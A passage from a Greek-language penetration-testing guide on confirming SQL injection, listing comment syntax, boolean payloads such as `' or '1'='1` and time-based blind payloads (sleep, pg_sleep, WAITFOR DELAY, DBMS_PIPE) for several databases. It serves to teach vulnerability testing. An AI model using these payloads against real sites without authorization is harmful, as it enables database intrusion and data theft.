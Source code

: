 ```sql
Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```
### Επιβεβαίωση με λογικές λειτουργίες

Μια αξιόπιστη μέθοδος για την επιβεβαίωση μιας ευπάθειας SQL injection περιλαμβάνει την εκτέλεση μιας **λογικής λειτουργίας** και την παρατήρηση των αναμενόμενων αποτελεσμάτων. Για παράδειγμα, μια παράμετρος GET όπως `?username=Peter` που αποδίδει ταυτόσημο περιεχόμενο όταν τροποποιηθεί σε `?username=Peter' or '1'='1` υποδεικνύει μια ευπάθεια SQL injection.

Ομοίως, η εφαρμογή **μαθηματικών λειτουργιών** χρησιμεύει ως μια αποτελεσματική τεχνική επιβεβαίωσης. Για παράδειγμα, αν η πρόσβαση σε `?id=1` και `?id=2-1` παράγει το ίδιο αποτέλεσμα, αυτό είναι ενδεικτικό SQL injection.

Παραδείγματα που δείχνουν την επιβεβαίωση λογικών λειτουργιών:
```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```
Αυτή η λίστα λέξεων δημιουργήθηκε για να προσπαθήσει να **επιβεβαιώσει SQLinjections** με τον προτεινόμενο τρόπο:

{% file src="../../images/sqli-logic.txt" %}

### Επιβεβαίωση με Χρόνο

Σε ορισμένες περιπτώσεις **δεν θα παρατηρήσετε καμία αλλαγή** στη σελίδα που δοκιμάζετε. Επομένως, ένας καλός τρόπος για να **ανακαλύψετε τυφλές SQL injections** είναι να κάνετε τη βάση δεδομένων να εκτελεί ενέργειες που θα έχουν **επίδραση στον χρόνο** που χρειάζεται η σελίδα για να φορτώσει.\
Επομένως, θα προσθέσουμε στην SQL ερώτηση μια λειτουργία που θα χρειαστεί πολύ χρόνο για να ολοκληρωθεί:
```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
Σε ορισμένες περιπτώσεις οι **λειτουργίες ύπνου δεν θα επιτρέπονται**. Τότε, αντί να χρησιμοποιήσετε αυτές τις λειτουργίες, μπορείτε να κάνετε το ερώτημα **να εκτελεί σύνθετες λειτουργίες** που θα διαρκέσουν αρκετά δευτερόλεπτα. _Παραδείγματα αυτών των τεχνικών θα σχολιαστούν ξεχωριστά για κάθε τεχνολογία (αν υπάρχουν)_.